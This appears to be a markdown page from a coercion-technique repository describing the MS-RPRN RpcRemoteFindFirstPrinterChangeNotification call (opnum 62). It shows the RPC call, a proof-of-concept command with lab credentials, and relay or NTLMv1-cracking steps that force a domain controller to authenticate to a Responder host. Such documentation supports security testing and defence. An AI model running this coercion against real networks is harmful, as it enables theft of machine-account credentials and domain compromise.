


# MS-RPRN - Remote call to RpcRemoteFindFirstPrinterChangeNotification (opnum 62)

## Summary

+ **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

+ **Protocol version**: 1.0

+ **Function name**: [`RpcRemoteFindFirstPrinterChangeNotification`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83)

+ **Function operation number**: `62`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcRemoteFindFirstPrinterChangeNotification`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcRemoteFindFirstPrinterChangeNotification(hPrinter, PRINTER_CHANGE_ADD_JOB, 0, "\\\\192.168.2.51\x00", 0, 0, NULL)
```

We can try this with this proof of concept code ([coerce_poc.py](./poc/python/coerce_poc.py)):

```bash
./poc/python/coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```



This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:



After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcRemoteFindFirstPrinterChangeNotification(
    [in] PRINTER_HANDLE hPrinter,
    [in] DWORD fdwFlags,
    [in] DWORD fdwOptions,
    [in, string, unique] wchar_t* pszLocalMachine,
    [in] DWORD dwPrinterLocal,
    [in, range(0,512)] DWORD cbBuffer,
    [in, out, unique, size_is(cbBuffer)] BYTE* pBuffer
);
```


+ **hPrinter**: A handle to a printer or server object that was opened by RpcAddPrinter (section 3.1.4.2.3), RpcAddPrinterEx (section 3.1.4.2.15), RpcOpenPrinter (section 3.1.4.2.2), or RpcOpenPrinterEx (section 3.1.4.2.14).


+ **fdwFlags**: Flags that specify the conditions that are required for a change notification object to enter a signaled state. A change notification MUST occur when one or more of the specified conditions are met.

    This parameter specifies a bitwise OR of zero or more Printer Change Values (section 2.2.4.13). The rules governing printer change values are specified in section 2.2.4.13.


+ **fdwOptions**: The category of printers for which change notifications are returned. This parameter MUST be one of the supported values specified in Printer Notification Values (section 2.2.3.8).


+ **pszLocalMachine**: A pointer to a string that represents the name of the client computer. The rules governing server names are specified in section 2.2.4.16.


+ **dwPrinterLocal**: An implementation-specific unique value that MUST be sufficient for the client to determine whether a call to RpcReplyOpenPrinter (section 3.2.4.1.1) by the server is associated with the hPrinter parameter in this call.<369>


+ **cbBuffer**: A value that SHOULD be set to zero when sent and MUST be ignored on receipt.


+ **pBuffer**: A pointer that MUST be set to NULL when sent and MUST be ignored on receipt.


+ **pOptions**: A pointer to an RPC_V2_NOTIFY_OPTIONS (section 2.2.1.13.1) structure that specifies printer or job members that the client listens to for notifications. For lists of members that can be monitored, see Printer Notification Values (section 2.2.3.8) and Job Notification Values (section 2.2.3.3).

    The value of this parameter can be NULL if the value of fdwFlags is nonzero.


## References

+ Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


+ Documentation of function `RpcRemoteFindFirstPrinterChangeNotification`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83